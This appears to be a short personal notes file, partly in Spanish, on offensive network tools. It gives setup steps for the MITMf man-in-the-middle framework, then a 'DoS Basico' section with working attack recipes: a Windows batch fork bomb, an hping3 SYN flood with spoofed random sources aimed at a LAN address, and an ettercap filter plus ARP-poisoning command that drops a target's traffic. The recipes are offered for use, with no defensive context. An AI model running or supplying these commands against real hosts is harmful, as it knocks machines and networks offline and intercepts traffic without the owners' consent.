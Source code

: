     Create your virtualenv:

mkvirtualenv MITMf -p /usr/bin/python2.7

    Clone the MITMf repository:

git clone https://github.com/byt3bl33d3r/MITMf

    cd into the directory, initialize and clone the repos submodules:

cd MITMf && git submodule init && git submodule update --recursive

    Install the dependencies:

pip install -r requirements.txt

    You're ready to rock!

python mitmf.py --help



Comun Errors:

Dns port in use -->>>>>  Modificar el puerto DNS en el archivo /etc/mitmf/mitmf.conf




<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<DoS Basico<<<<<<<<<<<>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
_________________________________________________Win BAT

:a
start
goto a

#save como x.bat and run it

_________________________________________________hping3 DoS

# hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source 192.168.1.24




___________________________________________ettercap DoS basico

script:

if (ip.src == 'Target IP' || ip.dst == 'Target IP')
{
drop();
kill();
msg("Packet Dropped\n");
}
	
Save as dos.elt

#etterfilter dos.elt -o dos.ef
#ettercap -T -q -F /usr/local/share/ettercap/dos.ef -M ARP /192.168.1.209/ //    
**Ojo con los Slash finales Error: Incorrect number of token.....
